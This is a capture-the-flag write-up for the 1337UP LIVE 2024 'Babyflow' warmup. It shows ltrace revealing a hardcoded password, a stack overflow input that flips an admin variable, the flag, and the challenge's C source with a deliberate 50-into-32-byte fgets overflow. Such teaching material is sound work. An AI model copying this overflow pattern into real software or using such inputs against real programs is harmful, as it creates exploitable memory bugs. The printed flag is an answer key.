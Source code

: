 ```yaml
---
name: Babyflow (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Warmup
description: Writeup for Babyflow (Warmup) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Babyflow

## Challenge Description

> Does this login application even work?!

## Solution

When players run the binary, it asks for a password.

```bash
./babyflow
Enter password: cat
Incorrect Password!
```

We can use a tool like `ltrace` to see if the password is revealed.

```bash
ltrace ./babyflow
printf("Enter password: ")                                               = 16
fgets(Enter password: cat
"cat\n", 50, 0x7fe918c2aa80)                                       = 0x7ffe1addfa40
strncmp("cat\n", "SuPeRsEcUrEPaSsWoRd123", 22)                           = 16
puts("Incorrect Password!"Incorrect Password!
)                                              = 20
+++ exited (status 0) +++
```

It is! Let's try `SuPeRsEcUrEPaSsWoRd123`.

```bash
./babyflow
Enter password: SuPeRsEcUrEPaSsWoRd123
Correct Password!
Are you sure you are admin? o.O
```

It's not that easy 😥 Before disassembling the binary, let's see if there's an obvious buffer overflow.

```bash
checksec --file babyflow
[*] '/home/crystal/Desktop/babyflow/babyflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Canaries are disabled, so there's nothing stopping us from "smashing the stack".

```bash
./babyflow
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Incorrect Password!
```

We can't forget the password!

```bash
./babyflow
Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```

Flag: `INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}`

### Source Code

I cba opening the binary in ghidra now so for anybody who's interested, this is how it works; there's a buffer overflow in the `password` variable, which allows 50 bytes to be written to a 32 byte buffer. Players are required to enter the correct password at the beginning of the input, but by appending additional characters, they can overwrite the `admin` flag with something other than zero.

```c
int main(void)
{
    char password[32];
    int admin = 0;

    printf("Enter password: ");
    fgets(password,50,stdin);

    if(strncmp(password, "SuPeRsEcUrEPaSsWoRd123", strlen("SuPeRsEcUrEPaSsWoRd123")) == 0)
    {
        printf("Correct Password!\n");
    }
    else
    {
        printf("Incorrect Password!\n");
        return 0;
    }

    if(admin)
    {
        printf("INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}\n");
    }else{
		printf("Are you sure you are admin? o.O\n");
	}

    return 0;
}
```
